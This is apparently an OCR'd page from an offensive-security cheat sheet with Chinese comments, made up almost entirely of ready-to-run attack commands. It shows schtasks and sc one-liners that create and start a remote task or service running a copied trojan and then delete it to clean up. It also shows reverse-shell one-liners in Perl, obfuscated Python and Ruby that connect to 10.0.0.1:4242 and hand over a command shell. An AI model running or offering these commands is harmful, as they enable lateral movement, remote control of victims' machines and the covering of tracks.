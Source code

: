 **conhost**
```bash
conhost calc.exe
```

**schtasks**
```bash
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
/sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host                          # 清除 schtasks
```

**SC**
```bash
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    # 新建服务,指向拷贝的木马路径
sc \\host start foobar                                          # 启动建立的服务
sc \\host delete foobar                                         # 完事后删除服务
```

**perl**
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**python**
```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**ruby**
```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
